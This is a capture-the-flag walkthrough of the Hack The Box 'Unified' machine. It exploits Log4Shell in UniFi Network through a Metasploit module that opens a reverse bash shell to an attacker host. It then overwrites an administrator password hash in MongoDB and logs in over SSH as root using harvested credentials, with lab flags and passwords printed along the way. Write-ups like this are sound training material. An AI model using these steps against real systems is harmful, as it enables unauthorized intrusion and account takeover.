


## Overview
---
Part of the "starting point"  boxes on HTB, Unified has a set of tasks with questions that provide a framework to walk through the machine. Unified focuses on the Log4Shell vulnerability in the UniFi Network application and mixes in some post exploitation enumeration before leveraging a MongoDB database to access an admin portal where SSH credentials can be found for privilege escalation. As this machine is part of the “starting point” category, many of the tasks are fundamental knowledge questions - I highly recommend researching them a bit if you do not know the answer instead of copy/pasting.

|                  |               |
| ---------------- | ------------- |
| **Release Date** | 02 Feb, 2022  |
| **Difficulty**   | Very Easy     |
| **OS**           | Linux         |
| **Created By**   | [ch4p](https://app.hackthebox.com/users/1) |

---

## Tasks

---

### Task 1
---

Which are the first four open ports?


We can start out with a quick nmap scan:
```bash
┌─[ice@parrot]─[~/Unified]
└──╼ $nmap -p- --reason --min-rate 5000 10.129.155.251
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-15 22:31 UTC
Nmap scan report for 10.129.155.251
Host is up, received conn-refused (0.073s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
6789/tcp open  ibm-db2-admin syn-ack
8080/tcp open  http-proxy    syn-ack
8443/tcp open  https-alt     syn-ack
8843/tcp open  unknown       syn-ack
8880/tcp open  cddbp-alt     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds
```

We have a number of open ports, but we can just look at the first 4 for this task.


22,6789,8080,8443


---

### Task 2
---

What is the title of the software that is running running on port 8443?


We didn't get this information from our last scan, so we can run a targetted scan at the specific port to try and get more information:
```bash
┌─[ice@parrot]─[~/Unified]
└──╼ $nmap -p 8443 -sC --min-rate 5000 10.129.155.251
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-15 22:34 UTC
Nmap scan report for 10.129.155.251
Host is up (0.073s latency).

PORT     STATE SERVICE
8443/tcp open  https-alt
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24

Nmap done: 1 IP address (1 host up) scanned in 3.48 seconds
```


UniFi Network


---

### Task 3
---

What is the version of the software that is running?


UniFi is a brand that makes networking equipment (e.g. routers, access points) and, as we can see in the nmap scan from the last task, we got an `http-title` back, so we can try navgiating to the page in a browser to see if there is any versioning information:




6.4.54


---

### Task 4
---

What is the CVE for the identified vulnerability?


Now that we know the software running and the specific version, we can do a quick search to see if there are any known vulnerabilites available that we could exploit.

Some quick searching for `UniFi 6.4.54 vulerabilities` brings up the infamous `Log4Shell` vulnerability, which this version appears to be susceptible to. 


CVE-2021-44228


---

### Task 5
---

What protocol does JNDI leverage in the injection?


We can find more information on the NIST website for [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228), including links to the specific [UniFi vulnerability](https://packetstorm.news/files/id/165673), which notes a specific protocol that JNDI leverages.


LDAP


---

### Task 6
---

What tool do we use to intercept the traffic, indicating the attack was successful?


There are a few progams that can be used for this purpose, but this one is a classic and always solid.


tcpdump


---

### Task 7
---

What port do we need to inspect intercepted traffic for?


We need to intercept traffic for the protocol that was leveraged earlier (LDAP).


389


---

### Submit User Flag
---
Submit the flag located in the michiael user's home directory.

Since we are working with a publicly known vulnerability here, we can easily set up and execute this vulnerability using Metasploit.

We can start by running `sudo msfconsole` and searching for the CVE:
```bash
[msf](Jobs:0 Agents:0) >> search cve-2021-44228

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/multi/http/log4shell_header_injection  2021-12-09       excellent  Yes    Log4Shell HTTP Header Injection
   1     \_ target: Automatic                         .                .          .      .
   2     \_ target: Windows                           .                .          .      .
   3     \_ target: Linux                             .                .          .      .
   4     \_ AKA: Log4Shell                            .                .          .      .
   5     \_ AKA: LogJam                               .                .          .      .
   6   auxiliary/scanner/http/log4shell_scanner       2021-12-09       normal     No     Log4Shell HTTP Scanner
   7     \_ AKA: Log4Shell                            .                .          .      .
   8     \_ AKA: LogJam                               .                .          .      .
   9   exploit/linux/http/mobileiron_core_log4shell   2021-12-12       excellent  Yes    MobileIron Core Unauthenticated JNDI Injection RCE (via Log4Shell)
   10    \_ AKA: Log4Shell                            .                .          .      .
   11    \_ AKA: LogJam                               .                .          .      .
   12  exploit/multi/http/ubiquiti_unifi_log4shell    2021-12-09       excellent  Yes    UniFi Network Application Unauthenticated JNDI Injection RCE (via Log4Shell)
   13    \_ target: Windows                           .                .          .      .
   14    \_ target: Unix                              .                .          .      .
   15    \_ AKA: Log4Shell                            .                .          .      .
   16    \_ AKA: LogJam                               .                .          .      .
   17  exploit/multi/http/vmware_vcenter_log4shell    2021-12-09       excellent  Yes    VMware vCenter Server Unauthenticated JNDI Injection RCE (via Log4Shell)
   18    \_ target: Automatic                         .                .          .      .
   19    \_ target: Windows                           .                .          .      .
   20    \_ target: Linux                             .                .          .      .
   21    \_ AKA: Log4Shell                            .                .          .      .
   22    \_ AKA: LogJam                               .                .          .      .


Interact with a module by name or index. For example info 22, use 22 or use exploit/multi/http/vmware_vcenter_log4shell
```

Here we can see that entry 12 is Log4Shell on Ubiquiti UniFi, so we can select it and see what options we need to set, then set them:
```bash
[msf](Jobs:0 Agents:0) >> use 12
[*] Using configured payload cmd/unix/reverse_bash
[msf](Jobs:0 Agents:0) exploit(multi/http/ubiquiti_unifi_log4shell) >> show missing

Module options (exploit/multi/http/ubiquiti_unifi_log4shell):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
[msf](Jobs:0 Agents:0) exploit(multi/http/ubiquiti_unifi_log4shell) >> set RHOSTS 10.129.155.251
RHOSTS => 10.129.155.251
[msf](Jobs:0 Agents:0) exploit(multi/http/ubiquiti_unifi_log4shell) >> set LHOST <ATTACKING_IP>
LHOST => <ATTACKING_IP>
```

Now we can try running the exploit:
```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/ubiquiti_unifi_log4shell) >> exploit
[*] Started reverse TCP handler on <ATTACKING_IP>:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The target is running a vulnerable version
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (<ATTACKING_IP>:4444 -> 10.129.155.251:34348) at 2026-07-15 23:39:40 +0000
[*] Server stopped.
```

And now we have a shell! We can navigate to michael's desktop with `cd /home/michael` and print out the user flag.


6ced1a6a89e666c0620cdb10262ba127


---

### Task 9
---

What port is the MongoDB service running on?


Let's check running processes for anything with `mongo`:
```bash
ps -ef | grep mongo
unifi         67      17  0 Jul15 ?        00:00:22 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
```

We can see that the process `monogod` was executed with a command that gave it a port.


27117


---

### Task 10
---

What is the default database name for UniFi applications?


A quick search for UniFi default database name should suffice.


ace


---

### Task 11
---

What is the function we use to enumerate users within the database in MongoDB?


MongoDB uses the format `db.collection.find()` to get objects in `collection` - in this case, we need to find out what colletion we want.

We can list out all the available collections on this specific database using: `mongo --port 27117 ace --eval "db.getCollectionNames()"`


db.admin.find()


---

### Task 12
---

What is the function we use to update users within the database in MongoDB?



db.admin.update()


---

### Task 13
---

What is the password for the root user?


Now we can use `mongo --port 27117 ace --eval "db.admin.find()"` to see what is contained in the admin collection. Here we find that it contains user objects, including password hashes in the `x_shadow` attribute:
```bash
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."...}
```

We don't have an easy way to figure out their passwords from this, but assuming we have access to update entries, we can just give "administrator" a new password instad.

First, we create a new password hash:
```bash
┌─[ice@parrot]─[~/Unified]
└──╼ $mkpasswd -m sha-512 password
$6$9KabErVzDG.ZSYPV$SRkPsjUGMIobCRhLMQthLb5FX2cQH9x808Aw8oeVS.jJ2AwMZ1LrbJLMEHotynrpwjUahNDTZROj9EGZXudRw1
```

Then we can set the administrator password to the new hash:
```bash
mongo -port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"$6$9KabErVzDG.ZSYPV$SRkPsjUGMIobCRhLMQthLb5FX2cQH9x808Aw8oeVS.jJ2AwMZ1LrbJLMEHotynrpwjUahNDTZROj9EGZXudRw1"}})'
```

Now we can try logging in to the UniFi web portal with these new credentials `administrator:password`, which brings us to  the UniFi dashboard:



After navigating around the dashboard for a bit, we can find some SSH credentials set up in Settings > Site > Device Authentication for `root`.


NotACrackablePassword4U2022


---

### Submit Root Flag
---
Our initial scan showed port 22 (SSH) open on the device, so let's try SSHing with those `root` credentials:
```bash
┌─[ice@parrot]─[~/Unified]
└──╼ $ssh root@10.129.155.251
root@10.129.155.251's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


root@unified:~#
```

Perfect! Now we can navigate to the root's home directory with `cd ~` and grab the root flag to finish up. 


e50bc93c75b634e4b272d2f771c33681


---

## Closing Thoughts
---
Unified was a great starting point box in my opinion, it had most everything one could hope for - it introduced some tools and provided guidance but did not give complete step by step. Only one of the tasks had a slightly questionable answer expectation (`db.admin.find()` is not necessarily the default way to "enumerate users" in MongoDB -- it is the way to enumerate the `admin` collection, but this could just have weel have been the `users` collection and left someone confused). Outside of that I think introducting the user to CVE researching and exploitation, as well as the potential vulnerabilities of outdated firmware even on generally well-fortified systems like UniFi networks, was very well done and fit for starting point.

---